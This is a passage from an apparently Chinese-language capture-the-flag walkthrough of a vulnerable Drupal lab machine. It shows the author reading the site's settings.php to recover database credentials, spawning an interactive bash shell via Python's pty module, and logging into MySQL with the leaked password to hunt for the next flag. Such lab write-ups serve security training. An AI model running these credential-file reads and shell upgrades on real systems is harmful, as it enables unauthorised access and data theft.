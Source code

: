```
cat /var/www/sites/default/settings.php
```

```
*
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

### [](https://lnng.top/posts/2ea3.html#%E5%8F%91%E7%8E%B0%E4%BA%86flag2%E5%92%8C%E6%95%B0%E6%8D%AE%E5%BA%93%E7%9A%84%E8%B4%A6%E5%8F%B7%E5%AF%86%E7%A0%81%EF%BC%8C%E5%B0%9D%E8%AF%95%E8%BF%9E%E6%8E%A5%E4%B8%80%E4%B8%8B "发现了flag2和数据库的账号密码，尝试连接一下")发现了flag2和数据库的账号密码，尝试连接一下

先弄一下交互shell吧

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![upload successful](https://lnng.top/images/pasted-117.png)

**upload successful**

  
连接数据库尝试一下

```
mysql -u dbuser -p R0ck3t
```

### [](https://lnng.top/posts/2ea3.html#%E6%9F%A5%E7%9C%8B%E4%B8%80%E4%B8%8Bnode%E5%92%8Cuser%E8%A1%A8%EF%BC%8C%E5%8F%91%E7%8E%B0flag3 "查看一下node和user表，发现flag3")查看一下node和user表，发现flag3
